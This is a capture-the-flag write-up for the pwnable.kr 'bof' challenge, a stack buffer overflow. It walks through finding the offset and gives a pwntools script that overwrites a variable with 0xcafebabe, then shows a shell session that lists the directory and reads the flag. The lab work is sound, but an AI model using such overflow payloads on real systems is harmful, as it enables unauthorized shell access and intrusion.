

we see how many bytes we need to write:
14*4*'c':
cccccccccccccccccccccccccccccccccccccccccccccccccccccccc
in order to see big or little endian we replace the last c with abcd and add an extra char just in case something weird is going on.

after examining the last space again it is working as it should.
now we only have to put in 13*4'c'+'\xbe\xba\xfe\xca'

Exploit script:

```from pwn import *
inp=remote('pwnable.kr', 9000)

inp.send( 13*4*'c'+'\xbe\xba\xfe\xca')
inp.interactive()
```  


Exploitation looks as follows:


``` [+] Opening connection to pwnable.kr on port 9000: Done
/home/kali/Desktop/pwnreq.py:4: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  inp.send( 13*4*'c'+'\xbe\xba\xfe\xca')
[*] Switching to interactive mode```

```$ ls
$ ls -la
total 22136
drwxr-x---   3 root bof      4096 Sep  3  2021 .
drwxr-xr-x 116 root root     4096 Nov 11  2021 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof      7348 Sep 12  2016 bof
-rw-r--r--   1 root root      308 Oct 23  2016 bof.c
-r--r-----   1 root bof        32 Jun 11  2014 flag
-rw-------   1 root root 22626482 Jul 25 11:17 log
-rw-r--r--   1 root root        0 Oct 23  2016 log2
-rwx------   1 root root      760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```